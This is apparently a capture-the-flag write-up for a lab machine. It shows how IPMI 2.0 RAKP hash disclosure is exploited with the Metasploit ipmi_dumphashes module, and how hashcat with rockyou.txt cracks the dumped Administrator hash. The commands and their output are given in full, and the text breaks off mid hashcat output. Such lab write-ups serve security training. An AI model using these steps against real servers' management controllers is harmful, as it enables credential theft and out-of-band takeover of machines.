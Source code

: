 ```Interface (IPMI)``` is a collection of specifications that define communication protocols for talking both across a local bus as well as the network. 

```Baseboard Management Controllers (BMCs)``` are a type of embedded computer used to provide out-of-band monitoring for desktops and servers.

Used ```Metasploit Framework``` to know more about the version of IPMI used and also to exploit it.

![IPMI_version](ipmi_version.png)

```Got IPMI Version 2```

#### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

We will use msf ```ipmi_dumphashes``` module for this purpose.Executed successfully and we got password hash for one of the users.

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:f6864526820100009a6cd71bb3529d6a06f44fc52d0a21a97d0792f03f078cff1c359fdb06288e05a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9f84180a4ecbb98bc1e9c0c53f

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

HASH is IPMI 2.0 RAKP (RMCP ) HMAC-SHA1 
```

Note: The above hash is not the correct one. I have removed some characters to avoid copying of hashes.

#### Hashcat to retrieve password from the hash

I used hashcat and ```rockyou.txt``` to obtain the password from obtained hash.

```
➜  Shibolleth git:(master) ✗ hashcat -a 0 -m 7300 hash.txt /opt/SecLists/rockyou.txt --force
- Device #1: autotuned kernel-loops to 1
1a1bffea82050000c454896fcbe7c362583e207fce037776091d6737151558e2d5c0b70b4862a650a123456789abcdefa123456789abcdef140d41646d696
e6973747261746f72:323edde62b2c35663eef:**retrieved password here**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Type........: IPMI2 RAKP HMAC-SHA1
Hash.Target......: 1a1bffea82050000c454896fcbe7c362583e207fce037776091...663eef
Time.Started.....: Fri Apr  1 22:10:33 2022 (5 secs)
Time.Estimated...: Fri Apr  1 22:10:38 2022 (0 secs)
Guess.Base.......: File (/opt/SecLists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:  1439.6 kH/s (5.01ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 7397376/14344384 (51.57%)
Rejected.........: 0/7397376 (0.00%)
Restore.Point....: 7389184/14344384 (51.51%)
Candidates.#1....: ilovetj26 -> ilovemymum55
HWMon.Dev.#1.....: N/A
